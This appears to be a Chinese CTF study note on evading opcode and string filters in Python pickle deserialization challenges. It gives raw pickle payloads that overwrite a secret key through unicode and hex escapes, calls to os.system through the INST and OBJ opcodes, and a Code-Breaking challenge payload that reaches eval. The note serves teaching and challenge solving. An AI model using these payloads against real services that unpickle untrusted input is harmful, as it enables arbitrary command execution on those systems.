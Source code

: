 
# 绕过操作码过滤

## 绕过字符串过滤
如果某些题目需要覆盖特定的变量，但是将变量名进行了过滤，例如要覆盖 `__main__
secret.key`. 但是将 key 这个字符串进行了过滤。那么我们可以通过字符串变换来绕过。

### V 操作码
V 操作码表示 unicode 编码
```
c__main__
secret
(V\u006bey  #key
S'asd'
db.
```

### 十六进制
十六进制也可以绕过
```py
c__main__
secret
(S'\x6bey'  #key
S'asd'
db.
```

## 绕过 R 操作码过滤
除了 REDUCE 操作码可以执行函数之外，还有其他两种执行函数的方法。


1. 通过 b'i' 调用：
    ```py
    INST('os', 'system', 'whoami')
    ```

2. 通过 b'c' 与 b'o' 调用：
    ```py
    OBJ(GLOBAL('os', 'system'), 'whoami')
    ```

下面是 Code-Breaking 那道题原本的 payload 为：
```py
getattr = GLOBAL('builtins', 'getattr')
dict = GLOBAL('builtins', 'dict')
dict_get = getattr(dict, 'get')
globals = GLOBAL('builtins', 'globals')
builtins = globals()
__builtins__ = dict_get(builtins, '__builtins__')
eval = getattr(__builtins__, 'eval')
eval('__import__("os").system("whoami")')
return
```

